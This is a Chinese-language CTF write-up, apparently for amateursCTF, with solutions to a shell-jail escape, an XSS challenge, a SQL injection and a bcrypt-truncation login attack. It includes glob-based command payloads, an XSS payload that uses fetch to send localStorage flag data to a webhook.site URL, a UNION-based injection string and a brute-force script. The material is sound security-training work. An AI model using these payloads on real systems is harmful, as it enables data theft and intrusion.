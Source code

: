 
# Jail

### sansomega
```python
#!/usr/local/bin/python3
import subprocess

BANNED = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]'


def shell():
    while True:
        cmd = input('$ ')
        if any(c in BANNED for c in cmd):
            print('Banned characters detected')
            exit(1)

        if len(cmd) >= 20:
            print('Command too long')
            exit(1)

        proc = subprocess.Popen(
            ["/bin/sh", "-c", cmd], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)

        print(proc.stdout.read().decode('utf-8'), end='')

if __name__ == '__main__':
    shell()

```

没有过滤$(),数字,但是过滤了\\没法8进制执行
\* 可以构造出来flag.txt

`/*/*/*64 *` 会解析为/bin/base64 /bin/x86_64  flag.txt

---
base32!!!竟然有这个命令

`/*/*/????32 *.*`

另一个解法,使用diff3

`/*/????3 ./* ./???`

another
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240411222144.png)

### javajail1
```python
BANNED = ['import', 'class', 'Main', '{', '}']
```




# web
### sculpture
#xss 
前端js会执行base64解码后code传的参数
```
print "<img src='' onerror=alert(1)>"
```
可以弹窗

```python
print "<img src='' onerror=fetch('https://webhook.site/9af81269-162e-4884-bdc3-cdc3f301f608/'+localStorage.getItem('flag')) }>"
```


```python
<img src='x' onerror=fetch('https://webhook.site/9af81269-162e-4884-bdc3-cdc3f301f608',{method:'POST',mode:'no-cors',body:localStorage.getItem('flag')});>
```



### one-shot
流程,new_session生成一个表(随机密码),search来匹配这个表里的字符且只能search一次,guess需要输入密码
```python
    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
```
search的query参数存在sql注入
```bash
' UNION ALL SELECT substr(password, 1, 1) FROM table_id UNION ALL SELECT substr(password, 2, 1) FROM table_id UNION ALL SELECT substr(password, 3, 1) FROM table_id UNION ALL SELECT substr(password, 4, 1) FROM table_id UNION ALL SELECT substr(password, 5, 1) FROM table_id UNION ALL SELECT substr(password, 6, 1) FROM table_id UNION ALL SELECT substr(password, 7, 1) FROM table_id UNION ALL SELECT substr(password, 8, 1) FROM table_id UNION ALL SELECT substr(password, 9, 1) FROM table_id UNION ALL SELECT substr(password, 10, 1) FROM table_id UNION ALL SELECT substr(password, 11, 1) FROM table_id UNION ALL SELECT substr(password, 12, 1) FROM table_id UNION ALL SELECT substr(password, 13, 1) FROM table_id UNION ALL SELECT substr(password, 14, 1) FROM table_id UNION ALL SELECT substr(password, 15, 1) FROM table_id UNION ALL SELECT substr(password, 16, 1) FROM table_id UNION ALL SELECT substr(password, 17, 1) FROM table_id UNION ALL SELECT substr(password, 18, 1) FROM table_id UNION ALL SELECT substr(password, 19, 1) FROM table_id UNION ALL SELECT substr(password, 20, 1) FROM table_id UNION ALL SELECT substr(password, 21, 1) FROM table_id UNION ALL SELECT substr(password, 22, 1) FROM table_id UNION ALL SELECT substr(password, 23, 1) FROM table_id UNION ALL SELECT substr(password, 24, 1) FROM table_id UNION ALL SELECT substr(password, 25, 1) FROM table_id UNION ALL SELECT substr(password, 26, 1) FROM table_id UNION ALL SELECT substr(password, 27, 1) FROM table_id UNION ALL SELECT substr(password, 28, 1) FROM table_id UNION ALL SELECT substr(password, 29, 1) FROM table_id UNION ALL SELECT substr(password, 30, 1) FROM table_id UNION ALL SELECT substr(password, 31, 1) FROM table_id UNION ALL SELECT substr(password, 32, 1) FROM table_id ; --
```
返回所有password

### creative-login-page-challenge
登录/注册功能,登录成功会在cookie里加上name和一段加盐的hash校验

注册时可以用户名可以填入模板,获取字段名
```java
            String tUsername = template(username);

    private String template(String fmtStr) throws Exception {
        StringBuilder sb = new StringBuilder();
        while (fmtStr.contains("{{")) {
            int start = fmtStr.indexOf("{{") + 2;
            int end = fmtStr.indexOf("}}", start);
            if (end == -1) throw new Exception("Invalid Format String");
            sb.append(fmtStr, 0, start - 2);
            Field f = LoginpageApplication.class.getField(fmtStr.substring(start, end));
            if (f.getType().equals(String.class)) {
                sb.append(f.get(this));
            } else {
                throw new Exception("Field not found");
            }

            fmtStr = fmtStr.substring(end + 2);
        }
        // no format strings, no need.
        sb.append(fmtStr);
        return sb.toString();
    }
//给的字段
    private final static String SALT = BCrypt.gensalt();
    // Some fun things to include in your username/password!
    // TODO take from env cause yes
    public String flag = System.getenv("FLAG");
    public String randomNum = Integer.toString((int) (Math.random() * 100));
```
其中flag已被过滤
`            if (tUsername.contains(flag)) return "No flag >:( !";`
,只剩下randomNum可以
~~分析登录接口可知,用户名是否存在都返回Credentials wrong,但是状态码未修改,我们可以据此来获取randomNum的值~~

---
利用的是bcrypto加密的最大密码长度为72,
```bash
hashpw('testtdsdddddddddddddddddddddddddddddddddddddddddddddddsddddddddddddddddd', salt)
Output: '$2a$15$jQYbLa5m0PIo7eZ6MGCzr.BC17WEAHyTHiwv8oLvyYcg3guP5Zc1y'

hashpw('testtdsdddddddddddddddddddddddddddddddddddddddddddddddsdddddddddddddddddd', salt)
Output: '$2a$15$jQYbLa5m0PIo7eZ6MGCzr.BC17WEAHyTHiwv8oLvyYcg3guP5Zc1y'
```

所以我们可以通过'A'\*n+flag{},注册账号,通过登录来遍历字母,然后逐步减少'a',增加flag的位数

```python
import requests
import os
import string

HOST = "http://creative-login-page.amt.rs"
CHARSET = "}_" + string.ascii_letters + string.digits
FLAG = "amateursCTF{"
# FLAG = "a"

def register(username, password):
    return requests.post(f"{HOST}/register", data={'username': username, 'password': password})

def login(username, password):
    return requests.post(f"{HOST}/login",data={'username': username, 'password': password})

while FLAG[-1] != "}":
    found = False
    uname = os.urandom(16).hex()
    passwd = "A" * (72 - len(FLAG) - 1)
    register(uname, passwd + "{{flag}}")
    for c in CHARSET:
        r = login(uname, passwd + FLAG + c)
        if r.status_code == 200:
            found = True
            FLAG = FLAG + c
            print(FLAG)
            break
    if found == False: break
```




# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-11   21:16